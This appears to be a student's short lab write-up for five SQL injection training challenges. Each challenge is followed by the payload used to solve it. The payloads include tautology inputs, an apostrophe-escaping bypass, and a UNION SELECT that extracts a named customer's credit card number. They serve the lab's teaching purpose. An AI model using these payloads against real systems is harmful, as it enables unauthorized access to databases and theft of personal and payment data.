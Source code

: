 # Week 2 Lab

1. SQL Injection Challenge: Please enter the user name of the user that you want to look up

                SELECT * FROM tb_users WHERE username ='' OR '1'='1';

2. SQL Injection 1 Challenge: Please enter the Customer Id of the user that you want to look up

                "OR "1"="1

3. SQL Injection 2 Challenge:Please enter the Customer Email of the user that you want to look up
          sqli' OR '1'='1'; -- "@gmail.com

4. SQL Injection Escaping Challenge: To complete this challenge, you must exploit SQL injection flaw in the following form to find the result key. The developer of this level has attempted to stop SQL Injection attacks by escaping apostrophes so the database interpreter will know not to pay attention to user submitted apostrophes.

          \' or 1 = 1; #

5. SQL Injection Challenge 3: To complete this challenge, you must exploit a SQL injection issue in the following sub application to acquire the credit card number from one of the customers that has a customer name of Mary Martin. Mary's credit card number is the result key to this challenge.

          ' Union select creditcardnumber from customers where customername = "Mary Martin"; #
